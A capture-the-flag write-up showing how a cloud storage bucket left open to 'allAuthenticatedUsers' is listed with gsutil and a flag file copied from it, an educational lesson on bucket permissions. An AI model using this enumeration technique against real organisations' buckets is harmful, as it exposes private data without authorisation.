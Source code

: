 # Not as Bad Bucket

This was a semi-sequel to Bad Bucket but you could do both individually. We are again presented with a URL https://storage.googleapis.com/${BUCKET_NAME}/index.html to a site which again is hosted on a bucket. Given that the challenge is again slanted towards buckets there is probably something we have to do here.

The website also notes that 
>`I was made aware of a security flare in my previous website setup, but that has been patched up and now only secret files can be accessed by logged in employees! Phew!` 

We can try to enumerate the bucket by listing its contents in the browser https://storage.googleapis.com/${BUCKET_NAME} but we get an access denied error. The hint above is pointing towards the user group of `allAuthenticatedUsers` which is a group that is allowed access to resources when you are logged in (so basically not anonymous).

To test this out we can try and list the bucket contents logged in through `gcloud`

Running

`gsutil ls gs://${BUCKET_NAME}`

We get the output of 

```
gs://${BUCKET_NAME}/index.html
gs://${BUCKET_NAME}/pics/
```

Awesome so now we can list, lets take a look in the pics/ directory

`gsutil ls gs://${BUCKET_NAME}/pics`

```
gs://${BUCKET_NAME}/pics/flag.txt
gs://${BUCKET_NAME}/pics/lisa.jpg
```

Lets go ahead and grab that `flag.txt` with

`gsutil cp gs://${BUCKET_NAME}/pics/flag.txt .`

And reading the file we get the flag!

`DUCTF{all_AUTHENTICATED_users_means_ALL_AUTHENTICATED_USERS_silly}`